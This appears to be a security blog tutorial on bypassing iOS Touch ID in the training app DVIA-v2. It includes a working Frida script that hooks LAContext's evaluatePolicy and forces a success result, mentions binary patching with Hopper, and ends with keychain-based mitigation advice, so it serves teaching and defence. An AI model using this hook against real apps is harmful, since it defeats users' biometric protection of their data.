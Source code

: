 ```yaml
---
layout: post
title: "iOS Application Security Part 50 - Touch ID Bypass with Frida"
date: 2018-07-26 07:48
comments: true
categories: security 
---
```

In the previous article, we looked at Runtime Manipulation with Frida. In this article, we will look at how we can bypass Touch ID authentication in certain iOS applications using Frida. We will be performing the tests on the swift version of Damn Vulnerable iOS app which can be downloaded from damnvulnerableiosapp.com.

Open the app and navigate under the section Touch/Face ID Bypass

Authentication can be done in multiple ways, and can use different languages (Objective-C or Swift). One of the ways is to use the LAContext class using the Local Authentication framework. The evaluatePolicy:localizedReason:reply: method from the LAContext class presents a dialog to the user which can ask for the user to confirm the action with biometric authentication through their fingerprint. If the method returns success, the relevant action is performed. However, the action that is performed after authentication is in no way correlated with how the authentication was done. There is no way for the iOS app to determine whether the authentication was performed with a valid fingerprint, or whether the method was hooked. The following code snippet from DVIA-v2 shows the implementation (from the file TouchIDAuthentication.m) using the LAContext class.

<!--more-->

<pre>	+(void)authenticateWithTouchID {

	    LAContext *myContext = [[LAContext alloc] init];
	    NSError *authError = nil;
	    NSString *myLocalizedReasonString = @"Please authenticate yourself";

	    if ([myContext canEvaluatePolicy:LAPolicyDeviceOwnerAuthenticationWithBiometrics error:&authError]) {
	        [myContext evaluatePolicy:LAPolicyDeviceOwnerAuthenticationWithBiometrics
	                  localizedReason:myLocalizedReasonString
	                            reply:^(BOOL success, NSError *error) {
	                                if (success) {
	                                    dispatch_async(dispatch_get_main_queue(), ^{
	                                    [TouchIDAuthentication showAlert:@"Success" withTitle:@"Authentication Successful"];
	                                    });
	                                } else {
	                                    dispatch_async(dispatch_get_main_queue(), ^{
	                                       [TouchIDAuthentication showAlert:@"Error" withTitle:@"Authentication Failed !!"];
	                                    });
	                                }
	                            }];
	    } else {
	        dispatch_async(dispatch_get_main_queue(), ^{
	            [TouchIDAuthentication showAlert:@"Your device doesn't support Touch ID" withTitle:@"Error"];
	        });
	    }
	}

</pre>

It is possible to just hook the evaluatePolicy:localizedReason:reply: method and make it return true. This can be done with the following Frida script.

<pre>	if(ObjC.available) {
		var hook = ObjC.classes.LAContext["- evaluatePolicy:localizedReason:reply:"];
		Interceptor.attach(hook.implementation, {
			onEnter: function(args) {
				var block = new ObjC.Block(args[4]);
				const appCallback = block.implementation;
				block.implementation = function (error,value)  {
					const result = appCallback(1, null);
					return result;
				};
			},
		});
	} 

</pre>

![1]({{site.baseurl}}/images/posts/ios50/1.png)

Now go the Touch/Face ID Bypass -> Objective-C implementation in DVIA-v2 and tap on the fingerprint button.

![2]({{site.baseurl}}/images/posts/ios50/2.PNG)

Now put the incorrect fingerprint. You will see that since the method is hooked, the authentication is successful.

![3]({{site.baseurl}}/images/posts/ios50/3.PNG)

The following function from DVIA-v2 shows the Swift implementation of the same thing. Since this can't be manipulated, it can still be patched and the function flow could be modified to go inside the if loop directly. The patching can be done with Hopper followed by signing with jtool.

<pre>	@IBAction func touchIDTapped(_ sender: Any) {
	        let context = LAContext()
	        var error: NSError?

	        if context.canEvaluatePolicy(.deviceOwnerAuthenticationWithBiometrics, error: &error) {
	            let reason = "Please authenticate yourself"

	            context.evaluatePolicy(.deviceOwnerAuthenticationWithBiometrics, localizedReason: reason) {
	                [unowned self] success, authenticationError in

	                DispatchQueue.main.async {
	                    if success {
	                        DVIAUtilities.showAlert(title: "Success", message: "Authentication Successful", viewController: self)
	                    } else {
	                        DVIAUtilities.showAlert(title: "Error", message: "Authentication Failed", viewController: self)
	                    }
	                }
	            }
	        } else {
	           DVIAUtilities.showAlert(title: "Touch ID not available", message: "Your device doesn't support Touch ID or you haven't configured Touch ID authentication on your device", viewController: self)
	        }
	    }
</pre>

In general, the vulnerability arises from the fact that the authentication and the resulting action after a successful authentication are independent of each other. A better way to securely save the data would be to save the data in the keychain and protect it with appropriate keychain attributes (for e.g ksecattraccessiblewhenpasscodesetthisdeviceonly), which require touch ID or device passcode authentication to access the keychain content. This will make it harder for the attacker to get the data since to gather the information from the keychain the user would actually have to authenticate with Touch ID or enter the passcode, depending on which access control he applied, and also the logic is managed by the OS and not the application. Even though biometric authentication via the Local Authentication framework is easy to implement, it is not recommended to be used for sensitive applications, such as banking or other financial apps.

In the next article, we will look at dumping unencrypted IPAs from the device and dynamic instrumentation on a non-jailbroken device using Frida.